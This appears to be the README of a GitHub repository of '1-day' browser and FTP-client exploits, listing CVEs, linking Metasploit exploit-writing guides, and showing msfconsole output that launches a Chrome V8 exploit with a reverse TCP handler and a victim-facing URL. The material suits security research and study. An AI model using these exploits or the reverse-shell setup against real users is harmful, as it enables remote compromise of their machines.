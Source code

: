 # 1-day exploits
1day exploit repo

## Database
CVE Number | Target | Type | OS | Version | Author 
---------- | -------| ---- | -- | ------- | ------ 
[CVE-2019-5825](windows/browser/chromium/941743/README.md) | Chrome | Browser | Windows | 73.0.3683.86 (64bit) | _Hwiwon Lee_
[CVE-2017-????](linux/browser/chromium/716044/README.md) | Chrome | Browser | Linux | 60.0.3080.5 (64bit) | _Hwiwon Lee_
[CVE-2016-1646](windows/browser/chromium/594574/README.md) | Chrome | Browser | Windows | 49.0.2623.87 (64bit) | _Hwiwon Lee_
[CVE-2017-????](windows/browser/chromium/746946/README.md) | Chrome | Browser | Windows | 59.0.3071.109 (64bit) | _Hwiwon Lee_
[CVE-2016-3207](windows/browser/ie/20163207/README.md) | IE | Browser | Windows | 11.0.9600.17420(32bit) | _Hyeonhak Kim_
[CVE-2017-0037](windows/browser/ie/20170037/README.md) | IE | Browser | Windows | 11.0.9600.18537(32bit) | _Hyeonhak Kim_
[CVE-2019-9760](windows/FTP/FTPGetter5.97/README.md) | FTPGetter | FTP Client | Windows | 5.97.0.177(64bit) | _Hyeonhak Kim_
[CVE-2016-????](windows/FTP/FTPShell5.24/README.md) | FTPShell | FTP Client | Windows | 5.24(32bit) | _Hyeonhak Kim_
[CVE-2019-????](./chromium/46654/README.md) | Chrome | Browser | Linux | 74.0.3702.0 (64bit) | _Youngjoon Kim_
[CVE-2019-????](./chromium/46748/README.md) | Chrome | Browser | Linux | 74.0.3725.0 (64bit) | _Youngjoon Kim_

## Metasploit
[Official Repo](https://github.com/rapid7/metasploit-framework)  
[How to write a browser exploit using BrowserExploitServer](https://github.com/rapid7/metasploit-framework/wiki/How-to-write-a-browser-exploit-using-BrowserExploitServer)  
[How to write a browser exploit using HttpServer](https://github.com/rapid7/metasploit-framework/wiki/How-to-write-a-browser-exploit-using-HttpServer)  

## vulncode-db 
Useful vulnerable code db site [demo](https://www.vulncode-db.com/) and [open source](https://github.com/google/vulncode-db)

## Environment Setup
### Chromium
[Downloading old builds of Chrome / Chromium](https://www.chromium.org/getting-involved/download-chromium)
### Internet Explorer
[Downloading old version update of IE](https://www.catalog.update.microsoft.com)

## How to use
### Attacker
```
$ msfconsole
...
[*] Starting persistent handler(s)...
msf5 > use exploit/windows/browser/chrome_v8_oob_access_594574 
msf5 exploit(windows/browser/chrome_v8_oob_access_594574) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[!] You are binding to a loopback address by setting LHOST to 127.0.0.1. Did you want ReverseListenerBindAddress?
[*] Started reverse TCP handler on 127.0.0.1:4444 
[*] Using URL: http://0.0.0.0:8080/B3mDU4Cmr
[*] Local IP: http://127.0.0.1:8080/B3mDU4Cmr
[*] Server started.
```

### Victim
Click the url link :D
